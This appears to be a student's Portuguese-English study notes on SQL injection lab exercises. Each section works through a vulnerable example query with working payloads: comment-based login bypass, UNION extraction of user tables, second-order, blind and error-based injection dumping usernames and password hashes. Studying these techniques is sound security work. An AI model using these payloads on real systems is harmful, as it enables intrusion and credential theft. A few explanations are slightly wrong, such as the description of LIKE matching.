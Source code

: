 # SQL INJECTION

## Basic SQL Injections

### SELECT * FROM users where username='".$user."' AND password = '.md5($password)."'

As we can see, the password is hashed using md5, so that's probably not the best path for us to attack from. However, the User Field is not protected at all
Se no login, na parte do username, escrevermos ```voldemort' -- //```, Isto causa que o resto da query seja ignorada
> -- // é como se faz comentarios em SQL

Assim o server recebe:

```sql
SELECT * FROM users where username='voldemort' -- //' AND password =''
```

a partir do 'voldemort', é tudo comentario. Logo, desde que voldemort seja um username existente, a query não irá ter erros e vai retornar *.

### SELECT * FROM users where (username='".$user."') AND (password = '.md5($password)."')

Aqui, temos os parenteses como extra segurança. Se fizessemos como antes ficava assim:

```sql
SELECT * FROM users where (username='voldemort' -- //') AND (password = '.md5($password)."')
```

Acaba-se com uma query mal formada, uma vez que nunca foram fechados os parenteses.

Entao, se fizermos login com o username ```voldemort') -- //```, cria a seguinte query:

```sql
SELECT * FROM users where username=('Voldemort') -- // ') AND password = '.md5($password). 
```

Assim já funciona a injection.

### SELECT * FROM products WHERE product_name LIKE '".$query."%'

> In SQL, a command ending in *LIKE ba%*, will return items whose names end with the substring "ba".

Neste exercício, estamos a usar uma barra de pesquisa em que nos aparecem os items que começam com a substring *".$query."*
Como não há qualquer tipo de validação, podemos fazer traquinagem

Por exemplo, se escrevermos na barra ```b%' order by 5 -- //```, o servidor vai receber a query:

```sql
SELECT * FROM products WHERE product_name LIKE 'b%' order by 5 -- //%'
```

Isto ordena a tabela resultante pela quinta coluna de dados.

Dá pa fazer mais cenas na search bar.
> The UNION operator is used to combine the result-set of two or more SELECT statements

Portanto se fizermos:

```sql
'union select null,id,username,password,fname from users -- //  
```

Cria a query:

```sql
SELECT * FROM products WHERE product_name LIKE '% 'union select null,id,username,password,fname from users -- %' 
```

Assim, alem de aparecerem os produtos, aparece tambem uma tabela com id, username, pass ...

Se não soubermos os nomes das variáveis e tabelas, o que é muito provavel, fazemos ```'union select null,null,null,null,table_name from information_schema.tables -- //```

Isto retorna tudo o que existe na base de dados.

## SQL Second Order Attacks

This designation (Second Order Attacks) is given to attacks that result in the storage of an unsanitized piece of SQL, that is later executed by an insecure function
Por exemplo, regista-se uma conta com username e pass, mas no username injeta-se SQL. Não acontece nada de momento, mas mais tarde quando se for trocar de pass, o SQL injetado vai ser executado. ***É por isso que se chama second order.***

Utilizando ```' or 1 in (select password from users) -- //```, dá nos um erro, mas a mensagem de erro mostra nos também o que queremos:
> Warning<: 1292: Truncated incorrect DOUBLE value : (...)

(Where ==(...)== are all the passwords in the **users** table password column)

## Blind SQL Injection

A Blind SQL injection happens when an attacker is able to determine the content of the database by the result of an operation. That is, the attacker will not get data from the database, but it will get a code (Error code, true false, etc...) that provides information about the data in the database.

Neste exercício, temos uma página cujo URL tem o username do utilizador. Alterando esse valor, podemos aceder a paginas de outros utilizadores. Também podemos fazer outras coisas injetando SQL.

A query da pagina funciona da seguinte forma:

```sql
SELECT * FROM users WHERE username = '".$_GET["user"]."'
```

Utilizaremos a template ```voldemort AND TEST``` em que TEST é qualquer pedaço de código SQL.
Podemos, por exemplo, fazer: ```voldemort AND SUBSTRING((select count(id) from users), 1) = N' -- //```

Isto cria a seguinte query:

```sql
SELECT * FROM users WHERE username = '.$_GET["voldemort AND SUBSTRING((select count(id) from users), 1) = N"].'
```

> By gradually incrementing N, we can, by **trial and error** get how many users exist in the **users** table (which corresponds to how many users exist overall). We'll know we've hit jackpot (i.e N equals the number of users that exist) when information is shown on the page (meaning that our < TEST > was validated as **TRUE** !) This basically gives us a way to find out anything we want from the database, using an exhaustive, and repetitive form, by basically continously asking the query: "Is < TEST > correct? How about this"

## Error based data extraction

Voltando à pagina de login, podemos extrair informação de lá a partir de mensagens de erros.

Lembrando que esta form funciona da seguinte forma:

```sql
SELECT * FROM users where username='".$user."' AND password = '.md5($password).
```

Se escrevermos isto no login: ```' or 1 in (select @@version) -- //```, o server recebe:

```sql
SELECT * FROM users where username='' or 1 in (select @@version) -- //' AND password = '.md5($password)."'
```

Aparece na página o seguinte erro:
> Warning: 1292: Truncated incorrect DOUBLE value: '8.0.17'

Já sabemos a versao do server.

### Outras funcionalidades

#### Return the hashed password of the admin user (or any user)

```sql
' or 1 in (select password from users where username = 'admin') -- //
```

#### Get info from the **users** table

```sql
' or 1 in (select username from users where id=1) -- //
```

#### List the tables of the information_schema ﬁrst database. You can obtain the list of table identiﬁers (TABLE_ID) and then use this information to obtain further data (e.g. WHERE TABLE_ID=1024)

```sql
' or 1=CAST((select group_concat(name) from INFORMATION_SCHEMA.INNODB_TABLES) AS SIGNED) -- //
```

This last example allows us to dump all rows from any column in any table. It basically contacts multiple values so that the result can be included in the error message

#### List the usernames of all users stored in the users table

```sql
' or 1=CAST((select group_concat(username) from users) AS SIGNED) -- //`
```

#### List the passwords of all users stored in the users table

```sql
' or 1=CAST((select group_concat(password) from users) AS SIGNED) -- //
```
